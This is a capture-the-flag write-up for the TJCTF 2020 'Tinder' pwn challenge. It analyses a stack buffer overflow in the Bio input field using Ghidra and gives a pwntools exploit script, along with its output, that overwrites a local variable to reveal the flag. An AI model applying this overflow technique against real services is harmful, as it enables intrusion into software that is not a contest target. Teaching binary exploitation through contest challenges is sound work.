


# TJCTF 2020

## Tinder

> 25
>
> [Start swiping](tinder)!
> 
> `nc p1.tjctf.org 8002`
>
> Written by agcdragon

Tags: _pwn_ _x86_ _bof_


## Summary

Simple buffer overflow into variable to control code flow.


## Analysis

### Decompile with Ghidra



The `input` function takes two parameters: buffer and length/16.  For Name (`local_28`), Username (`local_38`), Password (`local_48`), not a problem, a length of `1.0` will only read 16 bytes.  However, Bio (`local_88`) is allocated `64` bytes, yet the length parameter is `8.0` (`*16`), this can overflow into variables down stack, in particular `local_14`.

`local_14`, if set to `-0x3f2c2ff3` (`0xc0d3d00d`) will reveal the flag.

`main` function header:



To overwrite `local_14` starting at `local_88`, just write `0x88 - 0x14` bytes followed by `0xc0d3d00d` and the flag is yours.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./tinder')
p = remote('p1.tjctf.org', 8002)

p.recvuntil('Name: ')
p.sendline('foo')
p.recvuntil('Username: ')
p.sendline('foo')
p.recvuntil('Password: ')
p.sendline('foo')
p.recvuntil('Bio: ')

payload = (0x88 - 0x14) * b'A'
payload += p32(0xc0d3d00d)
p.sendline(payload)
p.stream()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8002: Done

Registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xd3\xc0' to TJTinder successfully!
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```
